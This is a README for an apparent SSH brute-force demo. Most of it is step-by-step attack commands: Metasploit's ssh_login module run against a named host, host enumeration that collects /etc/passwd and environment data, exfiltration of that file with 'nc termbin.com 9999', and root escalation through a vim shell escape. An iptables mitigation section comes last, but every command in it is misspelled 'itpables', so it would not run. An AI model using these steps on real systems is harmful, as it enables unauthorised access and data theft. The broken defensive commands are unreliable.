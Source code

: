 # Bruteforcing-SSH
========

This is a demo which will exploit SSH on a linux host. Once SSH access is gained, privilege escalation is used to become root. *Note* this README and demo is still under developement.


Downloading Dictionary Files
------------

Clone the project on your local system:

    git clone https://github.com/sillihkram/Bruteforcing-SSH.git
    cd Bruteforcing-SSH/

unpack and prepare the list of commonly used users & passwords
    
    gunzip passwords.txt.gz
    cp passwords.txt /tmp/passwords.txt 
    cp users.txt /tmp/users.txt

Just so you are familiar, take at the content and format of the files 
    
    wc -l /tmp/passwords.txt # Notice this is a long list
    head /tmp/passwords.txt
    head /tmp/users.txt
    

# Installing Metasploit (RHEL, Fedora, CentOS)
------------

Download the latest version of Metasploit Framework (OSS)

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

Set Permissions 

    chmod 755 msfinstall

 Run the install script

    ./msfinstall

By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path
    
    ls /opt/
    echo $PATH

Add the `/opt/metasploit-framework/bin/` directory to our path


    PATH=/opt/metasploit-framework/bin/:$PATH
    # you may want to make this persistant add this line to your .bash_profile


Add Metasploit repo to our system and make sure we have the latest version.

    msfupdate

# Installing Metasploit (Mac)
------------

 Prerequisite: 
   install homebrew:
   
    /bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"
    
    brew install metasploit
     

# Using Metasploit
------------

Launch the metasploit framework console

 
    msfconsole


List the available exploit modules for metasploit


    show exploits

Because there are over 2000 modules it may make more sense to search for one we're looking for
 
    search ssh login

For this demo select the auxiliary/scanner/ssh/ssh_login exploit module

    use auxiliary/scanner/ssh/ssh_login


List the options available for this module

    options

Define options for ssh_login module to launch a brute force attack against a target host

    set stop_on_success true
    set pass_file /tmp/passwords.txt
    set user_file /tmp/users.txt
    set threads 10


Define a target
    
    set rhost graffias.openincite.net

Launch the brute force attack

    exploit

if Metasploit successfully authenitcates with a usr/pass provided in the lists you'll see a message similar to the following:

`[+] 192.168.0.136:22 - Success: 'podman:password'`


Not only did metasploit find a combination that successfully authenticates but it also left a session open. List the open sessions

    sessions

To interact with the open session use the sessions command: `sessions -i <session id>`

    sessions -i 1

Now you are connected to a shell on the target. try typing some basic shell commands

    hostname -f
    uname -a

# Enumerating a Host
------------

connect to the target using the discovered credentials

    ssh graffias.openincite.net -l podman
    id
    sudo -l -U podman
    
podman appears to be a non privalaged user. Let's see what we can find out about the system...

    ls -lah $PWD
    firewall-cmd --list-ports >> $HOSTNAME.txt
    prinenv >> $HOSTNAME.txt
    cat /etc/passwd >> $HOSTNAME.txt
    yum list installed >> $HOSTNAME.txt
    
Let's grab a copy of the information we've collected 

    cat $HOSTNAME.txt | nc termbin.com 9999
    
# privilage escalation 
------------
Use vim to hide our shell

    vim 
    : ! /bin/bash -p
    
    
# Protecting a host from bruteforce
------------

Ensure iptables is installed:

    sudo yum install iptables -y

Add a simple rule to iptables to drop brute force attackes after an excessive amount of attempts

    itpables -P INPUT ACCEPT
    itpables -P FORWARD ACCEPT
    itpables -P OUTPUT ACCEPT
    itpables -N SSHBFATK
    itpables -A INPUT -p tcp -m tcp --dport 22 -m state --state NEW -m recent --set --name SSH --mask 255.255.255.255 --rsource
    itpables -A INPUT -p tcp -m tcp --dport 22 -m state --state NEW -m recent --update --seconds 600 --hitcount 50 --name SSH --mask 255.255.255.255 --rsource -j SSHBFATK
    itpables -A SSHBFATK -m limit --limit 5/min -j LOG --log-prefix "SSH: Detect brute force atk! " --log-level 6
    itpables -A SSHBFATK -j DROP
    
There is also an anisble playbook to create the above iptables rule. Try downloading it and running it against the local host:

    curl -LJO https://github.com/sillihkram/Bruteforcing-SSH/raw/main/mitigate-ssh-bruteforce.yaml

Now run the brute force exploit again and observe the behavior

    exploit

